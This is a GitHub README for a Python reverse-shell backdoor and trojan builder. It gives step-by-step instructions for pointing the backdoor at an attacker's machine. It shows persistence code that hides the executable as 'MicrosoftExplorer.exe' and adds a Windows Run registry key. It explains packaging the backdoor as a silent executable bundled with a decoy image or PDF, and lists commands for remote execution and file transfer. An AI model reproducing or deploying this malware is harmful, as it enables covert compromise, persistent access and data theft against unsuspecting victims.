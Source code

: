 # RevShell_2
A reverse shell written in Python with Single client support

## Usage

The backdoor.py script is the backdoor. It can be used as it is, or can be converted to an executable using ```Pyinstaller```

Step 1 

Editing backdoor.py and listener.py
```
# These stataments are at the very ends of the files
my_backdoor = Backdoor("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP the backdoor will try to connect to

my_listener = Listener("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP on which the listener will listen

# Next we'll modify the persistence function
def persistence(self):
        location = os.environ["appdata"] + "\\MicrosoftExplorer.exe"
        # this will set the location of the .exe to a hidden appdata folder with MicrosoftExplorer.exe name
        # this will set the location of the executable to whatever path you want,  for whatever OS you want, please fill it carefully
        if not os.path.exists(location):
            shutil.copyfile(sys.executable, location)
            # shutil.copyfile(__file__, location)
            # if you do not have the executable and want python file copied
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ/d "' + location + '"', shell=True)
            # command for persistence windows. Modify for linux and MacOS
```
Step 2

Once the files have been edited for your machine's IP and target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --onefile --noconsole backdoor.py
# add the no console argument to make it better
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## To convert executable to Trojan

Step 1

Edit backdoor_trojan.py for the Correct IP and then edit it as follows
```
filename = "<Filename>"
temp_folder = sys._MEIPASS + "/"
file = temp_folder + filename
img = Image.open(file) 
# this is is the file you want to use is a image
img.show()
# os.system(path)
# uncomment the above if its not an image (like a pdf)
```
Step 2

Once the files have been edited for your machine's IP, target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --add-data "<Full path of the image/pdf>:." --onefile --noconsole --icon "<icon> backdoor_trojan.py
```
For example, on my machine,
```
pyinstaller --add-data "/home/fox/PythonHacking/revshell_backdoor/ditf.jpg:." --onefile --noconsole --icon /home/fox/PythonHacking/revshell_backdoor/jpg_2 backdoor_trojan.py
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## Usage

After the connection is accepted a special prompt will be shown ```#>```
In this prompt, any and all system commands will be executed and a few special commands are coded into it as well
```
download <filename> - downloads a file from the target computer
upload <filename> - uploads a file from hacker's computer to target computer
quit - closes the connection and exits the program
exit - closes the connection and exits the program
```
